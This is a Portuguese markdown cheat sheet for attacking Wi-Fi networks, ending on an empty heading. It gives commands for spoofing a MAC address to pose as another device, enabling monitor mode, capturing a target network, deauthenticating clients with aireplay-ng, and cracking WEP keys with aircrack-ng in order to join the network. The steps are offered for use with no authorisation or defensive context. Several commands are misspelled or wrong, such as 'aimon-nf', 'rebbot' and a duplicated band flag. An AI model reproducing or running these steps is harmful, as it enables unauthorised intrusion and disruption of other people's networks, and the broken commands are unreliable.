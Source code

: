 ## Trocar o endereço MAC

**Objetivos:**
- Anonimizar
- Passar por outro dispositvo

**Comandos:**

   *$ ifconfig<br>
   $ ifconfig {interface} down<br>
   $ ifconfig {interface} hw ether {MAC novo}<br>
   $ ifconfig {interface} up*

# Wi-fi

## Colocando a interface no modo de monitoramento

### Opção 1
   *$ iwconfig <br>
   $ ifconfig {interface} down<br>
   $ airmon-ng check kill* (opcional)*<br>
   $ iwconfig {interface} mode monitor<br>
   $ ifconfig {interface} up*
### Opção 2
   *$ iwconfig<br>
   $ airmon-ng check kill <br>
   $ aimon-nf start {interface}*<br>
- Neste caso é criada uma nova inteface - normalmente com o acrescimo de 'mon' ao final do nome da inteface original.
## Restaurando a interface para o modo managed

### Opção 1 (se feito pelo opção 1 anterior)
   *$ iwconfig <br>
   $ ifconfig {interface} down<br>
   $ airmon-ng check kill* (opcional)*<br>
   $ iwconfig {interface} mode managed<br>
   $ ifconfig {interface} up*
### Opção 2 (se feito pelo opção 2 anterior)
   *$ iwconfig<br>
   $ airmon-ng check kill <br>
   $ aimon-nf stop {interface mon}<br>
   $ service NetworkManager restart, ou systemch restart NetworkManager*
### Opção 3 (ambos os casos)
   *$ rebbot*

## Monitorar redes de wifi
### Descobrindo as redes Wi-Fi

Com o modo monitor habilitado:

   *$ airodump-ng {interface}* - para redes 2.4Ghz <br>
   *$ airodump-ng --band a {interface}* - para redes 5Ghz <br>
   *$ airodump-ng --band a {interface}* - para ambas

### Monitorando uma rede específica (e gravar em arquivo)
   *$ airodump-ng --bssid {MAC alvo} --channel {canal alvo} --write {arquivo} {interface}*

### Desconectando um aparelho
Rodar simultaneamente , em outro terminal, com o airodump-ng 

   *$ aireplay-ng --deauth {número de envios} -a {MAC Servidor} -c {MAC Cliente} {interface}*

## Hackeando - segurança WEP
   *$ airodump-ng --bssid {MAC alvo} --channel {canal alvo} --write {arquivo} {interface}*
   
Em outro terminal

   *S aircrack-ng {arquivo.cap}* - Para achar a chave

- Para se conectar, basta selecionar a rede alvo e digitar a chave sem os ":"

### Redes de baixa utilização


   

